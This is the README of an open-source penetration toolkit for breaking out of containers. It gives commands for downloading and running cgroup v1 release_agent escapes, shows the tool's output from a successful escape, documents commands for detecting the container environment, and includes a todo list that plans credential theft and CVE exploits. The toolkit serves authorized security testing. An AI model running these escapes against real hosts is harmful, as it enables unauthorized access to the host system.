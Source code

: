 # ctrsploit: A penetration toolkit for container environment

[中文文档](./README-ZH.md)

## usage
### help
```
wget -O ctrsploit https://github.com/ssst0n3/ctrsploit/releases/download/v0.1/ctrsploit_linux_amd64 && chmod +x ctrsploit
./ctrsploit --help
NAME:
   ctrsploit - A penetration toolkit for container environment

ctrsploit is a command line ... //TODO


USAGE:
   ctrsploit [global options] command [command options] [arguments...]

COMMANDS:
   auto, a     auto gathering information, and detect vuls, and exploit // TODO
   exploit, e  run a exploit
   env, e      gather information // TODO
   help, h     Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --lang value  language for the greeting (default: "english")
   --help, -h    show help (default: false)
```

### run a exploit
```
root@2aa13a052102:/# ./ctrsploit e
NAME:
   ctrsploit exploit - run a exploit

USAGE:
   ctrsploit exploit command [command options] [arguments...]

COMMANDS:
   cgroupv1-release_agent, ra                       escape tech by using the notify_on_release of cgroup v1
   cgroupv1-release_agent-unknown_rootfs, ra3       escape tech by using the notify_on_release of cgroup v1 without known rootfs
   help, h                                          Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)

```

eg. : escape by 'cgroupv1-release_agent' tech.
```
root@host # docker run -ti --rm --security-opt="seccomp=unconfined" --cap-add="sys_admin" busybox
root@ctr # wget -O ctrsploit https://github.com/ssst0n3/ctrsploit/releases/download/v0.1/ctrsploit_linux_amd64 && chmod +x ctrsploit
root@ctr # ./ctrsploit e ra -c "cat /etc/hostname"
```

if we do not know the rootfs of container, ctrsploit can still escape by release agent tech
```
[root@container /]# ./ctrsploit e ra3 -c "cat /etc/hostname"
INFO[0000] trying 100                                   
INFO[0000] trying 200                                   
INFO[0000] trying 300                                   
INFO[0000] trying 400                                   
INFO[0000] trying 500                                   
...
INFO[0017] trying 11700                                 
INFO[0017] found /output140128693, success              
INFO[0018] 
===========start of result==============
cce-arm-euler28-30231
===========end of result============== 
```

### gather information
usage
```
root@ctr:/# ./ctrsploit env
NAME:
   ctrsploit env - gather information

USAGE:
   ctrsploit env command [command options] [arguments...]

COMMANDS:
   where, w        detect whether you are in the container, and which type of the container
   graphdriver, g  detect graphdriver type and extend information
   cgroups, c      gather cgroup information
   help, h         Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)
```

where
```
root@ctr:/# ./ctrsploit  env  w
INFO[0000] ===========Docker=========
.dockerenv exists: ✔
rootfs contains 'docker': ✔
cgroup contains 'docker': ✘
the mount source of /etc/hosts contains 'docker': ✔
hostname match regex ^[0-9a-f]{12}$: ✔
=> is in docker: ✔ 
INFO[0000] ===========k8s=========
/var/run/secrets/kubernetes.io exists: ✘
hostname match k8s pattern: ✘
the mount source of /etc/hosts contains 'pods': ✘
cgroup contains 'kubepods': ✘
=> is in k8s: ✘ 
```

cgroup version
```
root@ctr:/# ./ctrsploit env c
INFO[0000] ===========Cgroups=========
is cgroupv1: ✘
is cgroupv2: ✔ 
```

```
root@ctr:/# ./ctrsploit env g
INFO[0000] ===========Overlay=========
Overlay enabled: false 
INFO[0000] ===========DeviceMapper=========
DeviceMapper enabled: true
DeviceMapper used: true
The number of devicemapper used in running container: 11 ( =(count(running containers)+1) )
The host path of container's rootfs: /var/lib/docker/devicemapper/mnt/1659264e845b55b8c9ec42034d7d2dcc23159ebd06f3c69983e764f26eab9721/rootfs 
```

## pre-built release
https://github.com/ssst0n3/ctrsploit/releases

## Todo List
- [ ] information gather
    - [ ] whether in container
      - [ ] current container env
        - [ ] swarm
        - [x] k8s
          - [x] `ls -lah /var/run/secrets/kubernetes.io`
          - [x] `cat /proc/self/mountinfo | grep hosts |grep pods`
          - [x] `cat /proc/self/cgroup |grep kubepods`
          - [x] `cat /etc/hostname`
      - [ ] current cri
        - [x] docker
          - [x] `ls -lah /.dockerenv`
          - [x] `head -n 1 /proc/self/mountinfo | grep docker`
          - [x] `cat /proc/self/cgroup |grep docker`
          - [x] `cat /proc/self/mountinfo | grep "hosts|hostname" |grep docker`
          - [x] `cat /etc/hostname` // not convinced
        - [ ] containerd
        - [ ] ...
    - [ ] current container software version
      - [ ] cluster api: curl -k https://10.0.0.233:5443/apis/version.cce.io/v1beta1 --header "Authorization: Bearer $token"
    - [ ] current container ID
    - [ ] the security protection
        - [ ] capability
        - [ ] seccomp
        - [ ] LSM
        - [ ] cgroup
            - [ ] cgroup version
                - [x] v1
                - [x] v2
    - [ ] block dev name
        - [ ] /sys/block/nvme0n1
    - [ ] the absolute path under host of container's rootfs
        - [ ] docker
        - [ ] k8s variant 1
        - [ ] k8s variant 2
    - [ ] openstack api accessibility
    - [ ] graphdriver
        - [x] overlay
        - [x] devicemapper
        - [ ] aufs
- [ ] execute
    - [ ] outside of container
        - [ ] get docker credentials
            - [ ] $HOME/.docker/config.json
- [ ] exploit
    - [ ] CVE-2019-16884
    - [ ] CVE-2019-14271
    - [ ] CVE-2021-21285  
    - [ ] mount dir->symlink->mount again escape
    - [x] cgroupv1 notify_on_release escape
        - [x] unknown rootfs support 
    - [x] cgroupv1 notify_on_release escape with unknown rootfs
- [ ] auto exploit